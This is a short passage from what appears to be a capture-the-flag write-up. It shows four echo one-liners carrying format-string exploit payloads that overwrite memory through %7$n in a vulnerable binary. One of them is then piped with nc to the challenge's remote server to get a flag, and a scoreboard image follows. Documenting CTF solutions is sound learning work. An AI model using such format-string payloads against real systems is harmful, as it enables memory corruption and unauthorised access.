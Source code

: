 Any of the following format strings work:

`echo -e '\x4c\xa0\x04\x08%57001c%7$n' | ./binary`

`echo -e '\x4c\xa0\x04\x08%57001d%7$n' | ./binary`

`echo -e '\x4c\xa0\x04\x08%57001x%7$n' | ./binary`

`echo -e '\x4c\xa0\x04\x08%57001u%7$n' | ./binary`

Now we get a long output of text and "Welcome Dan" which means that it worked on our local binary!

All we have left to do is exploit it remotely and cat the target file.
`echo -e '\x4c\xa0\x04\x08%57001c%7$n' | nc 10.13.37.5 7777`

![flag8](flag8/flag.png)

---

## Final Scoreboard

![scoreboard](misc/finalscoreboard.png)
